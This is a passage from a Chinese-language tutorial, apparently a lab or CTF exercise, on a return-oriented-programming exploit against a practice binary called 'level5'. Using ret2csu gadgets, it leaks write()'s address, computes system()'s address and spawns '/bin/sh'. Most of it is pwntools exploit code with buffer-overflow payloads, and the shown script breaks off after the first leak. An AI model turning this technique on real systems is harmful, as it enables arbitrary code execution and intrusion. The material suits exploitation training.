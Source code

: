 当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #read(rdi=0, rsi=bss_addr, rdx=16)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)
```

最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #system(rdi = bss_addr+8 = "/bin/sh")
 payload3 = "\x00"*136
 payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload3 += "\x00"*56
 payload3 += p64(main)
```

最终exp如下：

```
#!/usr/bin/env python
 from pwn import *

 elf = ELF('level5')
 libc = ELF('libc.so.6')

 p = process('./level5')
 #p = remote('127.0.0.1',10001)

 got_write = elf.got['write']
 print "got_write: " + hex(got_write)
 got_read = elf.got['read']
 print "got_read: " + hex(got_read)

 main = 0x400564

 off_system_addr = libc.symbols['write'] - libc.symbols['system']
 print "off_system_addr: " + hex(off_system_addr)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)

 p.recvuntil("Hello, World\n")

 print "\n#############sending payload1#############\n"
 p.send(payload1)
 sleep(1)

 write_addr = u64(p.recv(8))
 print "write_addr: " + hex(write_addr)

```